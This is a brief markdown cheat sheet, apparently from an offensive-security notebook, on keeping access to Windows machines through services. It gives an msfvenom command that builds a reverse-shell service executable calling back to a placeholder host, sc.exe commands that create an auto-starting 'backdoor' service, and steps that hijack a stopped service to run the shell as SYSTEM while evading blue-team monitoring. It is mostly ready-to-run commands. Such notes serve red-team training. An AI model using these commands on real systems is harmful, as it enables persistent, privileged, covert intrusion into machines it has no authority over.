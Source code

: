 ```yaml
---
category: Uncategorized
tags: []
---
```

[sc](reg.md#sc)
### Creating New Services
```powershell
# Create a reverse shell using msfvenom, with exe-service, as service executables are different from normal executables
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe-service -o rev-svc.exe

# Crate a service
sc.exe create backdoor binpath= "C:\path\to\reverse\shell.exe" start= auto
sc.exe start backdoor
```
### Modifying Existing Services
- Usefull when blue team is monitoring new services
- Look for `Stopped` services.
```powershell
sc.exe query state=all
```
- check configuration
```powershell
sc.exe query Stopped_Service
sc.exe config Stopped_Service binpath= "C:\Reverse\Shell.exe" start= auto obj= "LocalSystem"
# Setting obj to LocalSystem runs the service with SYSTEM Privilege
```